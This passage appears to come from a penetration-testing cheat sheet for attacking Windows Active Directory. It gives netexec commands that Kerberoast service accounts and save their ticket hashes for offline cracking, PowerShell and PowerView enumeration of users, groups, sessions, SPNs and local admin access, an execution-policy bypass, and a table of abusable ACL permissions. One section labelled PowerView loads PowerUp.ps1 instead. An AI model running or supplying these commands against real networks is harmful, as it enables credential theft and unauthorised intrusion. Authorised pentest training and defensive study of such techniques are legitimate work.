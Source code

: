 ```console
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --kerberoast hashes.kerberoast
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -k --kerberoast hashes.kerberoast
```

## Active Directory

### Enumeration

#### Manual Enumeration

```cmd
PS C:\> net user /domain
PS C:\> net user <USERNAME> /domain
PS C:\> net group /domain
PS C:\> net group "<GROUP>" /domain
PS C:\> Get-NetComputer
PS C:\> Get-NetComputer | select operatingsystem,dnshostname
PS C:\> Find-LocalAdminAccess
PS C:\> Get-NetSession -ComputerName <RHOST>
PS C:\> Get-NetSession -ComputerName <RHOST> -Verbose
PS C:\> Get-Acl -Path HKLM:SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | fl
PS C:\> Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion
```

#### Enumeration using PowerView

```cmd
PS C:\> powershell -ep bypass
PS C:\> . .\PowerUp.ps1
PS C:\> Get-NetDomain
PS C:\> Get-NetUser
PS C:\> Get-NetUser | select cn
PS C:\> Get-NetUser | select cn,pwdlastset,lastlogon
PS C:\> Get-NetGroup | select cn
PS C:\> Get-NetGroup "<GROUP>" | select member
PS C:\> Convert-SidToName S-1-5-21-1987370373-658406905-1781884369-1104
```

#### Service Principal Name (SPN) Enumeration

```cmd
PS C:\> setspn -L iis_service
PS C:\> Get-NetUser -SPN | select samaccountname,serviceprincipalname
PS C:\> nslookup.exe <RHOST>
```

#### Object Permission Enumeration

| Permission | Description |
| --- | --- |
| GenericAll | Full permissions on object |
| GenericWrite | Edit certain attributes on the object |
| WriteOwner | Change ownership of the object |
| WriteDACL | Edit ACE's applied to object |
| AllExtendedRights | Change password, reset password, etc. |
| ForceChangePassword | Password change for object |
| Self (Self-Membership) | Add ourselves to for example a group |
